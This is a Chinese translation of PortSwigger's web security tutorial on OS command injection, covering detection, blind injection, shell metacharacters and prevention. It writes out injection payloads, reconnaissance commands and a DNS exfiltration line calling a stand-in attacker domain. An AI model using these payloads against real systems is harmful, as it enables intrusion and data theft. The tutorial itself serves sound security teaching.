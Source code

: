 ```yaml
---
description: 原文链接：https://portswigger.net/web-security/os-command-injection
---
```


# OS命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20\(5\)%20\(3\)%20\(3\)%20\(3\)%20\(4\).png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，让用户可以查看某件商品在特定商店中是否有库存。 这一信息是通过一个URL访问的：

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储的ID作为参数调用 shell 命令来实现的：

```
stockreport.pl 381 29
```

此命令输出指定物品的库存状态，并返回给用户。

由于该应用程序没有实现对操作系统命令注入的防御，攻击者可以提交以下输入来执行一个任意命令：

```
& echo aiwefwlguh &
```

如果这个输入是在`productID`参数中提交的，那么应用程序执行的命令是：

```
stockreport.pl & echo aiwefwlguh & 29
```

`echo`命令只是使提供的字符串在输出中回显，它是测试某些类型的 OS 命令注入的有用方法。 `&`字符是 shell 命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

输出的三行表明：

* 原始的`stockreport.pl`命令在没有预期参数的情况下执行，因此返回了一个错误消息。
* 注入的`echo`命令被执行，并且提供的字符串在输出中回显。
* 原先的参数`29`被作为命令执行，这导致了一个错误。

将额外的命令分隔符`&`放在注入的命令之后通常是很有用的，因为它将注入命令与注入点后面的内容分开。 这就减少了后面的阻止注入命令执行操作的可能性。

> 实验：[OS 命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)

## 有用的命令

当你确定了一个 OS 命令注入漏洞后，执行一些初始命令以获得被你入侵的系统的信息通常是有用的。 以下是在 Linux 和 Windows 平台上有用的一些命令摘要：

| 命令的用途 | Linux         | Windows         |
| ----- | ------------- | --------------- |
| 当前用户名 | `whoami`      | `whoami`        |
| 操作系统  | `uname -a`    | `ver`           |
| 网络配置  | `ifconfig`    | `ipconfig /all` |
| 网络连接  | `netstat -an` | `netstat -an`   |
| 运行的进程 | `ps -ef`      | `tasklist`      |

## 操作系统命令盲注漏洞

OS 命令注入的许多例子都是盲注漏洞。 这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 盲注漏洞仍然可以被利用，但是需要不同的技术。

考虑一个网站允许用户提交有关该站点的反馈。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序生成一封包含反馈的电子邮件发到网站管理员。 为此，它要把提交的详细信息调用给邮件程序。 例如：

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail`命令的输出（如果有）不会在应用程序的响应中返回，因此使用`echo` payload 将无效。 在这种情况下，你可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测OS命令盲注

你可以使用一个注入命令来触发一个时间延迟，从而让你根据应用程序响应的时间来确认命令是否被执行。 `ping`命令是执行此操作的有效方法，因为它可以让你指定要发送的 ICMP 数据包的数量，从而指定命令运行所花费的时间：

```
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序`ping`其环回网络适配器10次。

> 实验：[带时间延迟的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

### 通过重定向输出来利用OS命令盲注

你可以将注入命令的输出重定向到 web 根目录下的一个文件中，然后就可以用浏览器进行取回。 例如，如果应用程序从`/var/www/static`位置提供静态资源，那么可以提交以下输入：

```
& whoami > /var/www/static/whoami.txt &
```

`>`字符将`whoami`命令的输出发送到指定文件中。 然后，你可以使用浏览器获取`https://vulnerable-website.com/whoami.txt`来获取文件，并查看注入命令的输出。

> 实验：[带重定向输出的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

### 使用带外（OAST）技术利用盲OS命令注入

你可以使用一个注入的命令，通过 OAST 技术触发与你控制的系统的带外网络交互。 例如：

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 使用`nslookup`命令对指定域进行 DNS 查找。 攻击者可以监视到是否发生了指定的查找，从而检测命令已成功注入。

> 实验：[带外交互的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

带外通道还提供了一种简单的方法来从注入的命令中提取输出：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者的域名进行 DNS 查找，其中包含`whoami`命令的结果。

```
wwwuser.kgji2ohoyw.web-attacker.com
```

> 实验：带外数据渗出的 OS 命令盲注

## 注入 OS 命令的方式

可以使用各种 shell 元字符来执行 OS 命令注入攻击。

一些字符可以作为命令的分隔符，使命令可以被链接起来。 以下命令分隔符在 Windows 和基于 Unix 的系统中均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于 Unix 的系统中工作：

* `;`
* `0x0a` or&#x20;

在基于 Unix 的系统中，你还可以使用反引号或 dollar 字符，在原始命令内对注入的命令内联执行：

* `注入的命令`
* `$(` 注入的命令 `)`

请注意，不同的 shell 元字符具有细微的不同行为，这可能会影响它们在某些情况下是否起作用，以及它们是否允许带内检索命令输出或仅用于盲注利用。

有时，你控制的输入会出现在原始命令的引号内。 这种情况下，在使用合适的 shell 元字符注入新命令之前，需要终止带引号的上下文(使用`"`或`'`)。

## 如何防止OS命令注入攻击

到目前为止，防止 OS 命令注入漏洞最有效的方法是，永远不要从应用程序层代码中调用 OS 命令。 几乎在每种情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用 OS 命令，则必须进行强输入验证。一些有效验证的例子包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

不要试图通过转义 shell 元字符来清理输入。 实际中，这太容易出错，而且容易被熟练的攻击者绕过。

> 阅读更多
>
> [使用 Burp Suite 的 Web 漏洞扫描器找到 OS 命令注入漏洞](https://portswigger.net/burp/vulnerability-scanner)
